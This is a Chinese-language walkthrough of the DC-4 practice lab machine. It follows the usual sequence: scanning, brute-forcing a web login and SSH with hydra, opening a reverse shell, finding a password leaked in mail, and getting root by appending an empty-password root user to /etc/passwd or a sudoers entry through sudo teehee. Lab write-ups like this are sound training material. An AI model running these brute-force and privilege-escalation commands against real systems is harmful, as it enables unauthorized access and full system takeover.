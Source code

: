 # DC-4

## 主机扫描

```
arp-scan -l
```

> 靶机ip：192.168.56.110

## 端口扫描

```
nmap -A 192.168.56.110
```

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-15 07:08 EDT
Nmap scan report for 192.168.56.110
Host is up (0.0011s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 8d:60:57:06:6c:27:e0:2f:76:2c:e6:42:c0:01:ba:25 (RSA)
|   256 e7:83:8c:d7:bb:84:f3:2e:e8:a2:5f:79:6f:8e:19:30 (ECDSA)
|_  256 fd:39:47:8a:5e:58:33:99:73:73:9e:22:7f:90:4f:4b (ED25519)
80/tcp open  http    nginx 1.15.10
|_http-title: System Tools
|_http-server-header: nginx/1.15.10
MAC Address: 08:00:27:8A:84:D7 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 目录扫描

```
dirsearch -u http://192.168.56.110
```

```
Target: http://192.168.56.110/

[07:12:12] Starting: 
[07:12:40] 302 -  704B  - /command.php  ->  index.php
[07:12:42] 301 -  170B  - /css  ->  http://192.168.56.110/css/
[07:12:52] 301 -  170B  - /images  ->  http://192.168.56.110/images/
[07:12:52] 403 -  556B  - /images/
[07:12:52] 403 -   15B  - /index.pHp
[07:12:57] 302 -  206B  - /login.php  ->  index.php
[07:12:58] 302 -  163B  - /logout.php  ->  index.php
```

## 访问web页面

### 爆破登录页面

![image-20240315191803905](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240315191803905.png)

> admin happy

进到后台，发现可以执行命令

直接反弹shell

![image-20240315192253431](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240315192253431.png)

查找suid权限的文件

```
www-data@dc-4:/home$ find / -type f -perm -4000 2>/dev/null
find / -type f -perm -4000 2>/dev/null
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/passwd
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/sbin/exim4
/bin/mount
/bin/umount
/bin/su
/bin/ping
```

这里exim4是有漏洞的，和dc-8的一样

我这里跟着靶机思路再做一遍

进到home目录

```shell
www-data@dc-4:/home/jim$ ls -la
ls -la
total 36
drwxr-xr-x 3 jim  jim  4096 Mar 12 21:37 .
drwxr-xr-x 5 root root 4096 Apr  7  2019 ..
-rw-r--r-- 1 jim  jim   220 Apr  6  2019 .bash_logout
-rw-r--r-- 1 jim  jim  3526 Apr  6  2019 .bashrc
-rw-r--r-- 1 jim  jim   675 Apr  6  2019 .profile
drwxr-xr-x 2 jim  jim  4096 Apr  7  2019 backups
-rw------- 1 jim  jim   528 Apr  6  2019 mbox
-rwxrwxrwx 1 jim  jim    22 Mar 12 21:25 test.sh
```

发现密码文件

```shell
www-data@dc-4:/home/jim$ cd backups
cd backups
www-data@dc-4:/home/jim/backups$ ls
ls
old-passwords.bak
```

可能是jim的密码

### 爆破SSH

```
hydra -l jim -P pass.txt ssh://192.168.56.110
```

```
[22][ssh] host: 192.168.56.110   login: jim   password: jibril04
```



```shell
jim@dc-4:~$ cat mbox
cat mbox
From root@dc-4 Sat Apr 06 20:20:04 2019
Return-path: <root@dc-4>
Envelope-to: jim@dc-4
Delivery-date: Sat, 06 Apr 2019 20:20:04 +1000
Received: from root by dc-4 with local (Exim 4.89)
        (envelope-from <root@dc-4>)
        id 1hCiQe-0000gc-EC
        for jim@dc-4; Sat, 06 Apr 2019 20:20:04 +1000
To: jim@dc-4
Subject: Test
MIME-Version: 1.0
Content-Type: text/plain; charset="UTF-8"
Content-Transfer-Encoding: 8bit
Message-Id: <E1hCiQe-0000gc-EC@dc-4>
From: root <root@dc-4>
Date: Sat, 06 Apr 2019 20:20:04 +1000
Status: RO

This is a test.
```

## 提权

```shell
jim@dc-4:~$ cd /var/mail
cd /var/mail
jim@dc-4:/var/mail$ ls
ls
jim  www-data
jim@dc-4:/var/mail$ cat jim
cat jim
From charles@dc-4 Sat Apr 06 21:15:46 2019
Return-path: <charles@dc-4>
Envelope-to: jim@dc-4
Delivery-date: Sat, 06 Apr 2019 21:15:46 +1000
Received: from charles by dc-4 with local (Exim 4.89)
        (envelope-from <charles@dc-4>)
        id 1hCjIX-0000kO-Qt
        for jim@dc-4; Sat, 06 Apr 2019 21:15:45 +1000
To: jim@dc-4
Subject: Holidays
MIME-Version: 1.0
Content-Type: text/plain; charset="UTF-8"
Content-Transfer-Encoding: 8bit
Message-Id: <E1hCjIX-0000kO-Qt@dc-4>
From: Charles <charles@dc-4>
Date: Sat, 06 Apr 2019 21:15:45 +1000
Status: O

Hi Jim,

I'm heading off on holidays at the end of today, so the boss asked me to give you my password just in case anything goes wrong.

Password is:  ^xHhA&hvim0y

See ya,
Charles

jim@dc-4:/var/mail$ sudo -l
sudo -l
[sudo] password for jim: ^xHhA&hvim0y

Sorry, try again.
[sudo] password for jim: jibril04

Sorry, user jim may not run sudo on dc-4.
```

> 得到Charles的登录密码，^xHhA&hvim0y

```shell
charles@dc-4:~$ sudo -l
sudo -l
Matching Defaults entries for charles on dc-4:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User charles may run the following commands on dc-4:
    (root) NOPASSWD: /usr/bin/teehee
```

可以用teehee命令

看一下teehee的手册

> 用法：teehee [选项] ... [文件] ...
>
> 将标准输入复制到每个FILE，也复制到标准输出。
>
> -a、 --附加到给定的FILEs，不覆盖
>
> -i、 --忽略中断忽略中断信号
>
> -p诊断写入非管道的错误

利用管道写进文件

可以写/etc/passwd或者/etc/sudoers

```
echo "root1::0:0:::/bin/bash" | sudo teehee -a /etc/passwd
su - root1
```

或者

```
echo "charles   ALL=(ALL:ALL) ALL" | sudo teehee -a /etc/sudoers
sudo su -
```

![image-20240315195417005](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240315195417005.png)

## 总结

> 主要考察爆破，ssh爆破，登录页面爆破
>
> 靶机涉及知识点：
>
> 爆破，teeheee提权，/etc/passwd，/etc/sudoers文件利用

